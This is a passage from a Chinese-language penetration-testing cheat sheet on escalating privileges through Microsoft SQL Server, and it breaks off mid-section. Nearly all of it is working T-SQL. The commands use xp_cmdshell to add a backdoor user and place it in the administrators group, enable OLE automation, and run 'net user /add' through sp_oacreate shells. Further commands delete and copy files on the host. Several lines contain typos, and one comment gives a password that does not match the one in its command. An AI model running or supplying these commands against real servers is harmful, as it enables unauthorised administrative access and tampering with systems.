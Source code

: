 - 提权

```
exec master..xp_cmdshell 'net user test pinohd123. /add'    添加用户test，密码test
exec master..xp_cmdshell 'net localgroup administrators test add'    添加test用户到管理员组
```

##### 5.2.2 sp_pacreate

xp_cmdshell被删除的时候，考虑使用sp_oacreate

- 开启

```
exec sp_configure 'show advanced options',1;reconfigure;
exec sp_configure 'ole automation procedures',1;recofigure;
```

- 关闭

```
exec sp_configure 'show advanced options',1;reconfigure;
exec sp_configure 'ole automation procedures',0;reconfigure;
exec sp_configure 'show advanced options',0;reconfigure;
```

- 提权

```
declare @shell int
exec sp_oacreate 'wscript.shell', @shell out
exec sp_method @shell, 'run' , null, 'c:\windows\system32\cmd.exe \c "net user test pinohd123. /add" '
declare @shell int
exec sp_oacreate 'shell.application',@shell out
exec sp_oamethod @shell, 'shellexecute', null, 'cmd.exe', 'cmd /c net user test pinohd123. /add', 'c:\windows\system32', '','1';
```

- 文件操作

删除

```
declare @result int
declare @fso_token int
exec sp_oacreate 'scripting.filesystemobject', @fso_token out
exec sp_oamethod @fso_token,'deletefile',null,'c:\1.txt'
exec sp_oadestroy @fso_token
```

复制

```
declare @o int
exec sp_oacreate 'scripting.filesystemobject',@o out
exec sp_oamethod @o,'copyfile',null,'c:\1.txt','c:\2.txt'
```

移动
